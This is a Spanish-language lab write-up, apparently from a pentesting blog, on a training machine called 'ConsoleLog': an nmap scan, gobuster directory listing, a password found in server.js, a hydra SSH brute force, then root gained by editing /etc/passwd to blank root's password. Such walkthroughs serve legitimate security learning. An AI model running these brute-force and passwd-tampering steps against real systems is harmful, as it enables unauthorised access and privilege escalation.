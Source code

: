 ```yaml
---
layout: post
title: "ConsoleLog"
date: 2024-12-3
categories: [pentesting]
image: /assets/images/imagen.jpg
---
```


![[Pasted image 20241126164801.png]](/imagenes/Pasted%20image%2020241126164801.png)

usamos nmap para explorar los puertos `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2`

![[Pasted image 20241126164937.png]](/imagenes/Pasted%20image%2020241126164937.png)

entramos en el navegador 

![[Pasted image 20241126165029.png]](/imagenes/Pasted%20image%2020241126165029.png)

listamos directorios con goubuster `gobuster dir -u "http://172.17.0.2/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![[Pasted image 20241126165146.png]](/imagenes/Pasted%20image%2020241126165146.png)

navegamos en las nuevas dirreciones y encontramos un archivo server.js

![[Pasted image 20241126165348.png]](/imagenes/Pasted%20image%2020241126165348.png)

encontramos una posible contrasena 

![[Pasted image 20241126165418.png]](/imagenes/Pasted%20image%2020241126165418.png)

probmaos con hydra para encontrar un usuario `hydra -L  /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas  ssh://172.17.0.2:5000 -t 4

![[Pasted image 20241126165541.png]](/imagenes/Pasted%20image%2020241126165541.png)

entramos por ssh

![[Pasted image 20241126165655.png]](/imagenes/Pasted%20image%2020241126165655.png)

no tenemos permisos sudo asi que vemos en suid que permisos tenemos `find \-perm -4000 -user root 2>/dev/null`

![[Pasted image 20241126165841.png]](/imagenes/Pasted%20image%2020241126165841.png)

vemos que tenemos en la ruta passwd

![[Pasted image 20241126165932.png]](/imagenes/Pasted%20image%2020241126165932.png)

como tenemos permisos de nano modificamos el archivo passwd y eliminamos la "x" en el root con el comando `sudo nano passwd`  luego control x y ENTER 

![[Pasted image 20241126170148.png]](/imagenes/Pasted%20image%2020241126170148.png)

vemos que se modifico sin errores y probamos hacermos root  con `su root` 

![[Pasted image 20241126170243.png]](/imagenes/Pasted%20image%2020241126170243.png)

END 

